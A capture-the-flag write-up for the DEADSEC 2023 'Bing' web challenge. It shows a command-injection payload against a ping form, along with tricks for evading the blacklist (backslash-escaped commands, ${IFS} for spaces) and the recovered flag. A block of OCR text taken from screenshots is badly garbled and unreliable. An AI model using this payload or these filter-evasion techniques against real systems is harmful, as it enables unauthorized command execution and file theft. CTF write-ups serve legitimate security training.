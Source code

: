 # Bing
> `-`

## About the Challenge
We were given a website that contains a form and we can input a host there


[Image extracted text: ping
DEADSEC 2023
6 7 6
https://ecc905bc18ec53e3efdd8022.deadsecquest flag
Home
Flag for you
Don't hack my website
Host
8.8.8.8
Submit]


And then I tried to input 127.0.0.1 and here was the output


[Image extracted text: ping result
DEADSEC 2023
7 G
https://ecc905bc18ec53e3efdd8022.deadsecquest flag
Home
Flag for you
Flag for you
error when executing
command
127.0.0.1
Back]


## How to Solve?
We need to exploit the website using `Command Injection` vulnerability in order to read the flag. Here is the payload I used to read the flag

```
127.0.0.1;c\a\t${IFS}/f\lag.txt${IFS}|base64
```

Because some of the commands are blacklisted by the website (Like `cat` or `ls`), we can trick it with `/` character.  And because whitespace is also blacklisted by the website we can use `${IFS}`


[Image extracted text: Inspector
1 -
X
Request
Response
Pretty
Raw
Hex
Pretty
Raw
Hex
Render
Selection
48 (0x30)
POST / flag HTTP/=
<li>
Host
ccsoSbcl8ec53e3e fdd80::
deadsec-quest
href-" / flag"
Selected text
User-Agent
Hozilla/ 5
(Vindous
IT
10
Vin64;
{64;
17:109
Geclo/:O100101
Flag
for
You
Firefor/ll-
</a7
ZGWhZHtva_SrbzshISF fdGgxclSn
Aecept
<[li>
bEFnX-YUl-
ZHFV9Cg==
ext /html
applicat
on / xhthltxul , applicat
on/ xhl
F0
image / avif
1nage /vebp
1*{T=0.8
<ful>
Accept -
aguage
en-US
en;
1cC
Encoding:
gzip ,
deflace
divz
Content-
Type
applicat
on / *--form-ur lencoded
nav-
collapse
Decoded from:
Base64
Content-Lengch:
divz
Origin:
https:
/806242[5[4193205339c6125
deadsec- quest
{navs
dead(okolol:
thls_fllg_fOR
Referer
https:
806242f5f4193e05339c6125
deadsec- quest / flag
TOU}
ade
Ins
cure-Requests
Adiv
class=
Container
Sec--
etch--
Dest :
docuent
Sec--
etch-Hode
navigate
<hl>
Sec--
etch-
Site:
ae
origin
You
Sec-Fetch-User:
</hl>
Request attributes
crallers
<br/ >
host-137
0-1;Clalt; (IFS} /€1
trt; (IFS} Ibasee4
Request query parameters
<pref
FcvhZHtva-Srb_shISF fdGgxc
SmbEFnX-TuUl
ZHFV9Cg=
Request body parameters
~Ipre>
Request cookies
type
button
class
"btn
btn-lin-
href=
avascript history-back (-1/ ;
Back:
Request headers
<fdivz
Response headers
7 _ _
[container
~_8
Bootstrap
core
JavaScript
<script
Src=
[stacic/js/Jquery-min-Js" >
script>
<script
SICE
[stacic/Js/bootstrap
min- Js
script
~/body>
(hcnl>
Seorch;
matches
Seorcn;
matches
Done
1,278 bytes
265 millis
4-0
ept
Upgr =
Flag
for
lag]


```
dead{okokok!!!_th1s_flAg_f0R_Y0U}
```